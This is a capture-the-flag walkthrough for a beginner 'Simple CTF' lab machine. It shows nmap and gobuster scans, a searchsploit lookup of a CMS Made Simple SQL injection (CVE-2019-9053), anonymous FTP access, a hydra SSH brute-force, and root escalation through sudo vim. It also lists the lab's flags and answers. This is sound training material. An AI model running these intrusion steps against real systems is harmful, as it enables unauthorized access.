

# Simlpe CTF

## Description

Beginner level ctf

Deploy the machine and attempt the questions!

# Initial Scan

Let's start with an Nmap scan. The scan reveals three open ports:
* 21 ftp
* 80 http
* 2222 ssh

~~~
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.1.25
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
~~~

Open ports under 1000: `2`

Higher port service: `SSH`

# Web

We don't even need to browse the webpage to exploit this machine, but we have questions to answer, so here we go.

I ran `gobuster` on the webpage and found `/simple`.

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Simple_CTF]
└─$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.134.5 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.134.5
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/17 13:08:29 Starting gobuster in directory enumeration mode
===============================================================
/simple               (Status: 301)
~~~

By navigating to this directory, we face the defaul page for CMS Made Simple. If you scroll down the page, we can see the version.

I looked up this version in `searchsploit` and found an exploit for it:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Simple_CTF]
└─$ searchsploit CMS Made Simple 2.2.8
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection                                            | php/webapps/46635.py
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
                                                                                                                      
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Simple_CTF]
└─$ locate php/webapps/46635.py
/usr/share/exploitdb/exploits/php/webapps/46635.py

┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Simple_CTF]
└─$ head /usr/share/exploitdb/exploits/php/webapps/46635.py
#!/usr/bin/env python
# Exploit Title: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9
# Date: 30-03-2019
# Exploit Author: Daniele Scanu @ Certimeter Group
# Vendor Homepage: https://www.cmsmadesimple.org/
# Software Link: https://www.cmsmadesimple.org/downloads/cmsms/
# Version: <= 2.2.9
# Tested on: Ubuntu 18.04 LTS
# CVE : CVE-2019-9053     <---------------------
~~~

Now we can answer the questions of this part:

CVE: `CVE-2019-9053`

Vulnerability: `SQLI`

# FTP

Now we can go back to the original way I exploited this machine. Let's connect to FTP service, since anonymous login is allowed. I found a txt file in there and downloaded it:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Simple_CTF/files]
└─$ ftp $IP
Connected to 10.10.134.5.
220 (vsFTPd 3.0.3)
Name (10.10.134.5:user): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.00 secs (251.7226 kB/s)
ftp> exit
221 Goodbye.
~~~

The file is a note for user `mitch` and the sender is complaining about mitch's weak password.

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Simple_CTF/files]
└─$ cat ForMitch.txt 
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
~~~

This is useful for us, because we might be able to brute-force the password.

# SSh
## Brute-forcing SSH

I used `hydra` to brute-force the password for user `mitch`:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Simple_CTF]
└─$ hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://$IP:2222
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-17 12:18:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.134.5:2222/
[2222][ssh] host: 10.10.134.5   login: mitch   password: secret
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
~~~

Mitch's password: `secret`

## Log into SSH

Now that we have the credentials for SSH service, we can login and the first thing I did was spawning a TTY shell:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Simple_CTF]
└─$ ssh mitch@$IP -p2222
mitch@10.10.134.5's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ which python3
/usr/bin/python3
$ python3 -c "import pty;pty.spawn('/bin/bash')"
mitch@Machine:~$
~~~

Logged into: `SSH`

## User Flag

Now we have a shell and can read the user flag in our home directory:

~~~
mitch@Machine:~$ ls
user.txt
mitch@Machine:~$ cat user.txt 
G00d j0b, keep up!
~~~

User flag: `G00d j0b, keep up!`

## Other User

We are asked the name of the other user. We can find the other user by simply running `ls` for `/home`:

~~~
mitch@Machine:~$ ls /home
mitch  sunbath
~~~

Other user: `sunbath`

## Becoming root

Now we need to gain root access, in order to read the root flag. I ran `sudo -l` to check my sudo permissions.

~~~
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
~~~

We can run `vim` with sudo command and no password. Just run `sudo vim` and then type `:shell` and we have a root shell:
~~~
root@Machine:~# id
uid=0(root) gid=0(root) groups=0(root)
~~~

Used to privesc: `vim`

## Root Flag

Now we are root and can read the root flag in `/root`:
~~~
root@Machine:~# cd /root
root@Machine:/root# ls
root.txt
root@Machine:/root# cat root.txt 
W3ll d0n3. You made it!
~~~

Root flag: `W3ll d0n3. You made it!`

# D0N3! ; )

Thanks to the creator(s).

Hope you had fun!

And remember to make it a good one! : )